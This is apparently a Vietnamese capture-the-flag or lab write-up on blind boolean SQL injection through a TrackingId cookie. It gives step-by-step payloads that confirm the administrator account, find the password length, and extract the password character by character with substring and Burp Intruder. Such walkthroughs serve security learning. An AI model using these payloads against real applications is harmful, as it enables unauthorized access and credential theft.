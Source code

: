 ```sql
Néu sửa TrackingId=CbCFAAlBSnIZVjTH'+and+'1'='2 thì thông báo Welcome back! không xuất hiện
```
Chèn câu lệnh <b>select</b> kết hợp điều kiện <b>and</b>

![](../images/web/sql/cheatsheet/2.png)
```sql
TrackingId=CbCFAAlBSnIZVjTH'+and+(select+'a'+from+users+where+username='administrator')='a
Thông báo bao gồm Welcome back! => truy vấn đúng.
```
Sử dụng intruder kết hợp điều kiện <b>and</b> trong mệnh đề <b>where</b> tìm độ dài <b>password</b>
```sql
TrackingId=CbCFAAlBSnIZVjTH'+and+(select+'a'+from+users+where+username='administrator'+and+length(password)=§1§)='a
```
![](../images/web/sql/cheatsheet/3.png)
![](../images/web/sql/cheatsheet/4.png)

Sau khi tìm được độ dài password, sử dụng <b>substring</b> để dò từng ký tự.
```sql
TrackingId=4jAQadVcy9vkcMPq'+and+(select+substring(password,§1§,1)+from+users+where+username='administrator')='§a§;
```
![](../images/web/sql/cheatsheet/6.png)